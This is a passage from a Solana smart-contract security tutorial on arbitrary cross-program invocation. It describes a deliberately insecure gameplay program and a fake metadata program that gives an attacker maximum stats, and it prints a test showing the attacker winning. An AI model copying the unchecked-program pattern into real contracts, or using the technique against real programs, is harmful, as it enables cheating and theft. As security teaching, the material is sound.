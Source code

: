 1. `create_character_insecure` - creates a new character and CPI's into the
   metadata program to set up the character's initial attributes
2. `battle_insecure` - pits two characters against each other, assigning a "win"
   to the character with the highest attributes

The second program, `character-metadata`, is meant to be the "approved" program
for handling character metadata. Have a look at this program. It has a single
instruction for `create_metadata` that creates a new PDA and assigns a
pseudo-random value between 0 and 20 for the character's health and power.

The last program, `fake-metadata` is a "fake" metadata program meant to
illustrate what an attacker might make to exploit our `gameplay` program. This
program is almost identical to the `character-metadata` program, only it assigns
a character's initial health and power to be the max allowed: 255.

#### 2. Test `create_character_insecure` instruction

There is already a test in the `tests` directory for this. It's long, but take a
minute to look at it before we talk through it together:

```typescript
it("Insecure instructions allow attacker to win every time", async () => {
  // Initialize player one with real metadata program
  await gameplayProgram.methods
    .createCharacterInsecure()
    .accounts({
      metadataProgram: metadataProgram.programId,
      authority: playerOne.publicKey,
    })
    .signers([playerOne])
    .rpc();

  // Initialize attacker with fake metadata program
  await gameplayProgram.methods
    .createCharacterInsecure()
    .accounts({
      metadataProgram: fakeMetadataProgram.programId,
      authority: attacker.publicKey,
    })
    .signers([attacker])
    .rpc();

  // Fetch both player's metadata accounts
  const [playerOneMetadataKey] = getMetadataKey(
    playerOne.publicKey,
    gameplayProgram.programId,
    metadataProgram.programId,
  );

  const [attackerMetadataKey] = getMetadataKey(
    attacker.publicKey,
    gameplayProgram.programId,
    fakeMetadataProgram.programId,
  );

  const playerOneMetadata =
    await metadataProgram.account.metadata.fetch(playerOneMetadataKey);

  const attackerMetadata =
    await fakeMetadataProgram.account.metadata.fetch(attackerMetadataKey);

  // The regular player should have health and power between 0 and 20
  expect(playerOneMetadata.health).to.be.lessThan(20);
  expect(playerOneMetadata.power).to.be.lessThan(20);

  // The attacker will have health and power of 255
```